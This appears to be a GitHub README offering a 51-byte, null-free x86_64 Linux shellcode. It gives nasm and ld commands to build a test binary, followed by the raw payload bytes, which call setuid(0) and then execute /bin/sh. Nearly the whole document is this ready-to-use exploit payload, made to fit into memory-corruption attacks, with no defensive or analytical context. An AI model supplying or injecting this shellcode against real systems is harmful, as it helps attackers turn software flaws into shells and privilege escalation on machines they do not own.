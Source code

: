 # x86_64 Linux Local Shell
64-bit ASM code to locally pop a shell on a Linux machine.

* No null bytes.
* 51 bytes (including null terminator)

## Test
```nasm -f elf64 -o shellcode.o x64_linux_shell.asm```
```ld shellcode.o -o x64Shellcode_executable```
```./x64Shellcode_executable```

## Bytecode
buf = "\xeb\x24\x48\x31\xc0\x48\x31\xff\xb0\x69\x0f\x05\x48\x31\xc0\x48\x31\xd2\x48\x31\xf6\x48\x31\xc9\xb0\x3b\x5f\x48\x8b\x3f\x57\x54\x5f\x88\x4f\x07\x0f\x05\xe8\xd7\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68"
